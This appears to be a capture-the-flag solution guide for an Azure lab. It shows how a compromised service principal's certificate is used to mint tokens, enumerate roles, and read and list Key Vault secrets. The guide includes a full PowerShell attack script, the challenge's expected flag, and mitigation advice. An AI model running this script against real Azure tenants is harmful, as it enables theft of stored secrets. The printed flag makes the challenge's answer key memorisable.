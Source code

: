 # Challenge-03-Azure-Only: Solution Guide

## Objective
Demonstrate privilege escalation from a compromised Service Principal (from Challenge-01) to Azure Key Vault access using RBAC permissions and REST API calls.

## Prerequisites
- Completed Challenge-01-Azure-Only
- Access to the Service Principal certificate and credentials from Challenge-01
- PowerShell with Azure modules installed
- New-AccessToken.ps1 module from Challenge-01

## Attack Flow

### Step 1: Load Prerequisites from Challenge-01
```powershell
# Load the New-AccessToken module
Import-Module .\New-AccessToken.ps1

# Load certificate and credentials from Challenge-01
$clientCertificate = Get-PfxCertificate -FilePath ".\medicloud_cert.pfx"
$TenantId = "<tenant-id-from-challenge-01>"
$ApplicationId = "<application-id-from-challenge-01>"
```

### Step 2: Generate Management Token and Connect to Azure
```powershell
# Generate token for Azure Resource Manager
$AppToken = New-AccessToken -clientCertificate $clientCertificate -tenantID $TenantId -appID $ApplicationId -scope 'https://management.azure.com/.default'

# Connect to Azure using the token
Connect-AzAccount -AccessToken $AppToken -AccountId $ApplicationId
```

### Step 3: Verify Role Assignments
```powershell
# Check what permissions the Service Principal has
Get-AzRoleAssignment

# Expected output should show:
# - Key Vault Secrets User (on Key Vault)
# - Key Vault Reader (on Key Vault)  
# - Reader (on Resource Group)
```

### Step 4: Discover Key Vault Resources
```powershell
# Find the Key Vault created for Challenge-03
$KeyVaults = Get-AzKeyVault
$KeyVaultName = ($KeyVaults | Where-Object {$_.VaultName -like "*ctf25-ch03*"}).VaultName
Write-Output "Found Key Vault: $KeyVaultName"
```

### Step 5: Generate Key Vault Token
```powershell
# Generate token specifically for Key Vault access
$AppVaultToken = New-AccessToken -clientCertificate $clientCertificate -tenantID $TenantId -appID $ApplicationId -scope 'https://vault.azure.net/.default'
```

### Step 6: Access Key Vault Secrets via REST API
```powershell
# Construct Key Vault URIs
$KVURI = "https://$KeyVaultName.vault.azure.net"
$SecretName = "flag"
$SecretURI = "$KVURI/secrets/$SecretName/?api-version=7.3"

# Access the flag secret
$secretValue = Invoke-WebRequest -Uri $SecretURI -Headers @{
    'Authorization' = "Bearer $AppVaultToken"
} | ConvertFrom-Json

Write-Output "Flag encontrada: $($secretValue.value)"
```

### Step 7: List Available Secrets (Optional)
```powershell
# List all available secrets
$SecretsListURI = "$KVURI/secrets/?api-version=7.3"
$allSecrets = Invoke-WebRequest -Uri $SecretsListURI -Headers @{
    'Authorization' = "Bearer $AppVaultToken"
} | ConvertFrom-Json

Write-Output "Secretos disponibles:"
$allSecrets.value | ForEach-Object { Write-Output "- $($_.id)" }
```

## Complete PowerShell Script
```powershell
# Challenge-03 Azure Key Vault Privilege Escalation
# Complete attack script

Import-Module .\New-AccessToken.ps1

# Configuration from Challenge-01
$clientCertificate = Get-PfxCertificate -FilePath ".\medicloud_cert.pfx"
$TenantId = "<tenant-id>"
$ApplicationId = "<application-id>"

# Step 1: Generate management token and connect
$AppToken = New-AccessToken -clientCertificate $clientCertificate -tenantID $TenantId -appID $ApplicationId -scope 'https://management.azure.com/.default'
Connect-AzAccount -AccessToken $AppToken -AccountId $ApplicationId

# Step 2: Verify permissions
Write-Output "=== Role Assignments ==="
Get-AzRoleAssignment | Format-Table RoleDefinitionName, Scope, DisplayName

# Step 3: Discover Key Vault
$KeyVaults = Get-AzKeyVault
$KeyVaultName = ($KeyVaults | Where-Object {$_.VaultName -like "*ctf25-ch03*"}).VaultName
Write-Output "=== Key Vault Found ==="
Write-Output "Key Vault Name: $KeyVaultName"

# Step 4: Generate Key Vault token
$AppVaultToken = New-AccessToken -clientCertificate $clientCertificate -tenantID $TenantId -appID $ApplicationId -scope 'https://vault.azure.net/.default'

# Step 5: Access secrets
$KVURI = "https://$KeyVaultName.vault.azure.net"

# Get flag
$FlagURI = "$KVURI/secrets/flag/?api-version=7.3"
$flagValue = Invoke-WebRequest -Uri $FlagURI -Headers @{
    'Authorization' = "Bearer $AppVaultToken"
} | ConvertFrom-Json

Write-Output "=== FLAG FOUND ==="
Write-Output "Flag: $($flagValue.value)"

# List all available secrets
$SecretsListURI = "$KVURI/secrets/?api-version=7.3"
$allSecrets = Invoke-WebRequest -Uri $SecretsListURI -Headers @{
    'Authorization' = "Bearer $AppVaultToken"
} | ConvertFrom-Json

Write-Output "=== SECRETS AVAILABLE ===" 
$allSecrets.value | ForEach-Object { Write-Output "- $($_.id)" }
```

## Key Vulnerabilities Exploited

1. **Overpermissive Role Assignments**: Service Principal has Key Vault Secrets User permissions
2. **RBAC Misconfiguration**: Permissions granted without proper need-to-know basis
3. **Public Key Vault Access**: Key Vault accessible from internet
4. **Certificate-based Authentication**: Compromised certificate allows token generation
5. **Cross-Resource Privilege Escalation**: Storage access leads to Key Vault access

## Expected Flag
```
CTF{k3y_v4ult_pr1v1l3g3_3sc4l4t10n_fr0m_s3rv1c3_pr1nc1p4l}
```

## Mitigation Recommendations

1. **Principle of Least Privilege**: Grant minimal required permissions
2. **Private Endpoints**: Use private endpoints for Key Vault access
3. **Network Restrictions**: Implement IP allowlists and VNet restrictions
4. **Certificate Management**: Implement proper certificate lifecycle management
5. **Monitoring**: Enable Key Vault logging and monitoring
6. **Conditional Access**: Implement conditional access policies for service principals
